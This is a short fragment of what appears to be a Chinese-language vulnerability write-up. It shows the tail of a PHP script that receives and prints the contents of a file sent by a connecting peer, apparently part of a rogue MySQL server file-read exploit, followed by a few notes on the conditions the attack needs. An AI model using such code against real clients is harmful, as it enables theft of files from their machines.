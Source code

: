 ```php

  echo "[+] $filename from $peer:\n";

  $len = fread($s, 4);
  if(!empty($len)) {
    list (, $len) = unpack("V", $len);
    $len &= 0xffffff;
    while ($len > 0) {
      $chunk = fread($s, $len);
      $len -= strlen($chunk);
      echo $chunk;
    }
  }

  echo "\n\n";
  fclose($s);
}

```



利用此漏洞需要几个条件

mysql 某个位置为1

HTTP